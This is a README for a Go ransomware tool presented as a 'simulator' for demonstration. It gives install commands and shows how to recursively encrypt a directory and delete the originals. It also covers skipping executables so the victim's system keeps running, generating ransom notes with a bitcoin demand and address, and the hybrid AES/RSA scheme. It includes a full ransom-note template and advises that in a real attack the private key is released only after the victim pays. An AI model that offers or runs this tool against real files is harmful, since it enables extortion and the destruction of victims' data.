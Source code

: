 # Ransomware Simulator

A simple demonstration tool to simulate a ransomware attack locally

## ⚠️ Disclaimer ⚠️

This software is made just for demonstration and study purposes.
If you want to run it locally for tests, take care of what directories you decide to encrypt.
Its use is free, however the author doesn't take responsibility for any illegal use of the code by 3rd parties.

## Setup

To setup the tool just run

```bash
go install github.com/deepakrajpoot00/Basic-Ransomware-Simulator@latest
```

### Setup locally

To run the tool locally without installing it

```bash
go run main.go
```

## Why

In order to demonstrate the way ransomware works quickly and in a protected environment, **it is very useful to be able to restrict its operation within a directory**.
This way the process takes much less time (the entire operating system does not need to be encrypted).
Writing this tool in Go, also **allows the tool to be developed even in a non-Windows environment** (by far the most supported operating system by ransomware available online)

## How to use it

This tool is used to simulate a ransomware attack. With it you can perform the following actions:

1. After setting up a key, recursively encrypt the contents of a specified path
2. After asking for a key, recursively decrypt the contents of a specified path

## Help

```bash
NAME:
   ransomware - A simple demonstration tool to simulate a ransomware attack

USAGE:
   ransomware [global options] command [command options] [arguments...]

VERSION:
   v1.0.0

AUTHOR:
   Deepak Rajpoot

COMMANDS:
   create-keys, c  Generates a new random keypair and saves it to a file
   encrypt, e      Encrypts a directory
   decrypt, d      Decrypts a directory
   help, h         Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --verbose      Runs the tool in verbose mode (more logs) (default: false)
   --help, -h     show help (default: false)
   --version, -v  print the version (default: false)
```

## Create a keypair

First thing you need to do is to create a keypair. You can do it by running

```bash
ransomware create-keys --path ~/Desktop
```

If you don't specifiy a path it will create the keys in `pwd`.
This command will create two files:

- pub.pem
- priv.pem

In a real scenario you need to put the `private key` in a server and provide it only after the victim payed the ransom. The public key needs instead to be embedded in the ransomware to encrypt the folders

## Encrypt a directory

With this command you can recursively encrypt every file inside a specified directory.

```bash
NAME:
   ransomware encrypt - Encrypts a directory

USAGE:
   ransomware encrypt [command options] [arguments...]

OPTIONS:
   --path value, -p value      Runs the tool on a directory
   --publicKey value           Loads the provided RSA public key in PEM format
   --extBlacklist value        the extension to blacklist (default: ".enc")
   --extWhitelist value        the extension to whitelist
   --skipHidden                skips hidden folders (default: false)
   --dryRun                    encrypts files without deleting originals (default: false)
   --encSuffix value           defines the suffix to add to encrypted files (default: ".enc")
   --addRansom                 if set to true add a ransom note to every encrypted folder (default: false)
   --ransomTemplatePath value  defines where to find the template to use for the ransom note
   --ransomFileName value      defines the name of the ransom file name (default: "IMPORTANT.txt")
   --bitcoinCount value        how many bitcoins to ask as ransom (default: 0)
   --bitcoinAddress value      the bitcoin address to use (default: "<bitcoin address>")
   --help, -h                  show help (default: false)
```

For example if you want to run the tool on the `~/Documents` folder run:

```bash
ransomware encrypt --publicKey ./pub.pem --path ~/Documents
```

This command provides the following options:

- `path`: the path to encrypt. This is required
- `publicKey`: the path of the publicKey PEM file created by the `create-keys` command
- `extBlacklist`: if provided, a comma-separated list of extension to skip. **This feature is useful, to exclude executable like `.exe` files**
- `extWhitelist`: if provided, a comma-separated list of extension to whitelist
- `skipHidden`: if set, skips hidden folders
- `dryRun`: just creates encrypted files without deleting originals
- `encSuffix`: defines a custom extension to set on encrypted files (default `.enc`)
- `addRansom`: if the tool should generate a new ransom.txt file for each encrypted folder
- `ransomTemplatePath`: the path of the template to use as ransom
- `ransomFileName`: the name to give to the ransom file
- `bitcoinCount`: how many bitcoin to ask as ransom
- `bitcoinAddress`: the bitcoin address to use inside the ransom file

### Examples

Just encrypt gif files on Desktop

```bash
ransomware encrypt --publicKey ./pub.pem --path ~/Desktop --extWhitelist .gif
```

Encrypt everything except `.csv` and `.pdf` files

```bash
ransomware encrypt --publicKey ./pub.pem --path ~/Desktop --extBlacklist .csv,.pdf
```

Encrypt everything and add a ransom file

```bash
ransomware encrypt --publicKey ./pub.pem --path ~/Desktop --addRansom --ransomTemplatePath ./ransom/IMPORTANT.txt
```

### Ransom file

This is an example of ransom file. The templated strings `{{.BitcoinAddress}}`, `{{.BitcoinCount}}` and `{{.PubliKey}}` will be replace by the script. Please check encrypt options to see options available

```txt
!!! IMPORTANT !!!

All of your files are encrypted with RSA 4096 and AES 256 ciphers.
More information about RSA and AES can be found here:
- https://en.wikipedia.org/wiki/RSA_(cryptosystem)
- https://en.wikipedia.org/wiki/Advanced_Encryption_Standard

Decrypting of your files is only possible with the private key and decrypt program, which is not available to you.
To receive your private key please send {{.BitcoinCount}}BTC to {{.BitcoinAddress}} together with the public key used to encrypt your files

The public key to use in the form is

{{.PublicKey}}
```

## Decrypt a directory

With this command you can decrypt a folder back to its original form after a victim payed the ransom

```bash
NAME:
   ransomware decrypt - Decrypts a directory

USAGE:
   ransomware decrypt [command options] [arguments...]

OPTIONS:
   --path value, -c value  Runs the tool on a directory
   --privateKey value      Loads the provided RSA private key in PEM format
   --dryRun                decrypts files without deleting encrypted versions (default: false)
   --encSuffix value       defines the suffix to add to encrypted files (default: ".enc")
   --ransomFileName value  defines the name of the ransom file name (default: "IMPORTANT.txt")
   --help, -h              show help (default: false)
```

For example if you want to run the tool on the `~/Documents` folder run:

```bash
ransomware decrypt --privateKey ./priv.pem --path ~/Desktop/toEncrypt
```

This command provides the following options:

- `path`: the path to encrypt. This is required
- `privateKey`: the path of the privateKey PEM file created by the `create-keys` command
- `dryRun`: just creates decrypted files without deleting encrypted version
- `encSuffix`: defines a custom extension for encrypted files (default `.enc`)
- `ransomFileName`: defines the name of the ransom file. Needed to delete the files previously generated

## How it works

The tool implements a [**hybrid encryption strategy**](<https://www.picussecurity.com/resource/the-most-common-ransomware-ttp-mitre-attck-t1486-data-encrypted-for-impact#:~:text=In%20the%20hybrid%20encryption%20approach,(public%20key)%20encryption%20algorithm.>) making use of two different algorithms:

- [AES256](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard)
- [RSA2048](<https://en.wikipedia.org/wiki/RSA_(cryptosystem)>)

The reason for this choice is related to the different nature of the two encryption algorithms. **A hybrid approach takes advantage of the performance of AES to execute faster, while at the same time not providing the decryption key within the executable**.

A new random AES key is then generated for the session each time the tool is executed. **This key is used to encrypt all files in the selected folder**. For later retrieval, this key is **encrypted with the public RSA key provided** to the tool and prepended to all encrypted files.

In this way, the tool, provided with the corresponding private key, will be able to **read the AES key at the beginning of each file, decrypt it, and finally use it to decrypt the file**.
